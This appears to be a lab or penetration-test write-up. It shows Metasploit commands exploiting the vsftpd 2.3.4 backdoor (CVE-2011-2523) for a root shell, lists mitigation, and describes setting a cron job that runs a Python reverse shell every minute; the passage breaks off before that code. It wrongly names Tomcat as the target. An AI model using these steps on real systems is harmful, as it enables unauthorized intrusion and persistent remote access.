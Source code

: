 We launched Metasploit and searched for exploits related to this version of Tomcat.

We properly configured the exploit

```python
> msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

```python
> msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.16.25.2
```

```python
> msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

This exploit run a Backdoor Command Execution and provides us with a root shell

![[Pasted image 20250512145918.png]]

# Vulnerability

| CVE-XXXX-XXXXX | Name of vulnerability      | level         | Link                                                                      |
| -------------- | -------------------------- | ------------- | ------------------------------------------------------------------------- |
| CVE-2011-2523  | Backdoor Command Execution | ==10.0/HIGH== | [[[NVD - CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)]] |
|                |                            |               |                                                                           |

# mitigation

For CVE-2011-2523, the mitigation involves the following steps:

```python
Upgrade: Immediately upgrade to a non-vulnerable version of vsftpd beyond 2.3.4.
```

```python
Patch Verification: Validate that the updated version does not contain the backdoor.
```

# Privilege Escalation

No additional privilege escalation was required, as the exploited vulnerability (CVE-2011-2523) in vsftpd 2.3.4 resulted in immediate remote access with root-level privileges.

We can see that the root user has ALL-ALL permits
![[Pasted image 20250512150323.png]]

After receiving a shell from the previously executed exploit, we upgraded to a bash shell

First we are going to create a Crontab task that executes a reverse Shell every 1 minute

![[Pasted image 20250512163457.png]]

We use this reverse Shell written in Python
